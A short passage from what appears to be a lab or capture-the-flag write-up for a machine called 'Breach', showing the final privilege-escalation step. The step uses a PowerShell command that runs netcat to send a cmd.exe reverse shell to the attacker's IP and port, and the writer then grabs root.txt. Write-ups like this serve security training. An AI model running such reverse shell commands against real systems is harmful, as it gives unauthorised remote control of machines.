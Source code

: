 Lets try to get a shell with it.

I will transfer the nc.exe binary to the remote machine and execute it.

```powershell
.\gp.exe -cmd "./nc64.exe -t -e c:\windows\system32\cmd.exe 10.10.14.87 9005"
```

![image.png](/assets/images/Breach_VL/image%2032.png)

Grabbing the root.txt and submitting it.

![image.png](/assets/images/Breach_VL/image%2033.png)

Rooted !!

